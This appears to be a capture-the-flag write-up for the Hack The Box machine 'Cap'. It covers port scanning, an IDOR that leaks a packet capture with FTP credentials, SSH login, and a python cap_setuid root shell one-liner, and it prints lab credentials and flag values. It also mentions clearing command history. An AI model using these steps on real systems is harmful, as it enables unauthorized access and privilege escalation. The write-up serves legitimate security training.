 # HTB: Cap

## Engagement Overview
**Target:** Cap (HTB)
**Box IP:** 10.10.10.245
**Local IP:** 10.10.14.16
**Date:** 2025-07-21

---

### Objectives
- Discover and exploit an IDOR to access sensitive captures
- Extract credentials from a packet capture (pcap)
- Use leaked credentials to obtain a shell and escalate to root via Linux capabilities

---

## Service Enumeration

```bash
# Full TCP scan (condensed)
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.245
nmap -p 21,22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.245
```

**Relevant outputs / findings:**
- Port 21 – FTP (vsftpd 3.0.3) — no anonymous access
- Port 22 – SSH (OpenSSH 8.2p1)
- Port 80 – HTTP (Gunicorn, Python-based web app)
- Gunicorn dashboard and predictable `/data/<id>` endpoints indicated possible IDOR

---

## Initial Access

### IDOR Discovery & PCAP Extraction
- Accessing `/data/0` returned a packet capture (pcap) not generated by current session — classic IDOR.
- Downloaded pcap and analyzed in Wireshark to recover cleartext credentials:
  - `USER: nathan`
  - `PASS: Buck3tH4TF0RM3!`

### Foothold via FTP/SSH
```bash
ftp 10.10.10.245
# login: nathan / Buck3tH4TF0RM3!
ftp> get user.txt  # user flag retrieved: e64084b4cf1836347593df12f6a16b75
```
- SSH access confirmed using same credentials for `nathan`

---

## Privilege Escalation

### LinPEAS findings
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Because `python3.8` has the `cap_setuid` capability, it can be used to escalate privileges by changing UID to 0 and spawning a shell.

**Exploit (performed on target):**
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

**Result:** Root shell obtained. `root.txt` captured: `f0f8a2a1d4bfdea7688e471cf3ad04a4`

---

## House Cleaning / Post-Exploitation

- Removed `linpeas.sh` and cleared command history where appropriate
- No persistent backdoors left

**Flags:**
- `user.txt`: `e64084b4cf1836347593df12f6a16b75`
- `root.txt`: `f0f8a2a1d4bfdea7688e471cf3ad04a4`

---

## Tools Utilized
- nmap, ftp, ssh, python3
- Wireshark
- LinPEAS

---

## Key Takeaways
- IDORs exposing resources like pcaps can leak highly sensitive credentials.
- Linux capabilities (caps) provide alternate privilege escalation routes beyond setuid binaries.
- Packet analysis skills (Wireshark) are critical for extracting cleartext credentials from captures.
